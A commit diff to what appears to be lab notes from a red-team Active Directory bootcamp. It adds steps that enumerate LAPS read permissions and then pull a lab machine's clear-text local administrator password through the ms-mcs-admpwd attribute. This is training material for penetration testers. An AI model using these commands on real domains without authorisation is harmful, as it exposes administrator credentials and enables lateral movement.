

Before and after one commit to brianyaucy/PA-CRTEBootcamp, a Markdown page: l08-LAPS.md, the part around the change printed below. Shown: that part at 91% size. Drawn GitHub-style; pictures changed too: images/6454203976307a0417a52073e3e367df35a519b2495d18a2566308decb5dabb8.png (added), images/a0a4f86e8ee8f95d94be3ca54817d1204e6116dcbda402f772fcb15da6ee9e07.png (added); blank space fills up the shorter version.

Commit message:
Content Update - Hands-on 8

````diff
--- a/l08-LAPS.md
+++ b/l08-LAPS.md
@@ -18,9 +18,43 @@
 
 ## Identify OUs where LAPS is in use and user(s) who have permission to read passwords
 
+First import AD Module:
+
+```
+Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll; Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
+```
+
+<br/>
+
+Import `Get-LapsPermission.ps1` as well:
+
+```
+. C:\AD\Tools\Get-LapsPermission.ps1
+```
+
+![picture 10](images/6454203976307a0417a52073e3e367df35a519b2495d18a2566308decb5dabb8.png)
+
+- `US\studentusers` has the LDAPS Read permission on the OU `MailMgmt`.
+
 <br/>
 
 ---
 
 ## Abuse the permissions to get the clear text password(s)
 
+Check the computers in the `Mgmt` OU:
+
+```
+Get-ADComputer -Filter * | ? { $_.DistinguishedName -match "MailMgmt" }
+```
+
+![picture 11](images/a0a4f86e8ee8f95d94be3ca54817d1204e6116dcbda402f772fcb15da6ee9e07.png)
+
+- Computer: `US-MailMgmt`
+
+Since the current user `studentuser64` is in the group `US\studentusers`, we can use AD Module to read the LAPS:
+
+```
+Get-ADComputer -Identity US-MailMgmt -Properties ms-mcs-admpwd | Select -ExpandProperty ms-mcs-admpwd
+```
+
````
Also changed, not shown: other parts of l08-LAPS.md (+15 -0 lines), images/75637d8cd3d3caf2432ccbb22504fcd4bab60837a89aaf8955246af4f0fa5122.png (added), images/80eaadd7555f764bd3c7cefbaf89acae4f9484a35f9c2110287ddfdb23531d54.png (added).
